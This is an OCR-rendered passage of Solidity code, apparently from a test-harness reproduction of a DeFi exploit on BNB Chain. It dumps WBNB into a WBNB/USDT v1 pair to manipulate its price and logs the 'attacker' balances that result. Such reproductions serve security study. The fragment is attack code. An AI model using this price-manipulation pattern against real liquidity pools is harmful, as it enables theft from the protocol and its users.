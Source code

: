 │                                                                                                                                                                                                                                                       │
│         emit log_string("Dumping all WBNB for USDT on WBNB+USDT v1 pool..");                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         // Manipulate WBNB - USDT pair                                                                                                                                                                                                                │
│         (uint256 reserve0, uint256 reserve1, ) = WBNBUSDTv1.getReserves();                                                                                                                                                                            │
│         uint256 amountIn = wbnbAmount;                                                                                                                                                                                                                │
│         uint256 amountOut = router.getAmountOut(amountIn, reserve1, reserve0);                                                                                                                                                                        │
│         IERC20(WBNB).transfer(address(WBNBUSDTv1), amountIn);                                                                                                                                                                                         │
│         WBNBUSDTv1.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After dumping all WBNB, WBNB balance of attacker:",                                                                                                                                                                                      │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After dumping all WBNB, USDT balance of attacker:",                                                                                                                                                                                      │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │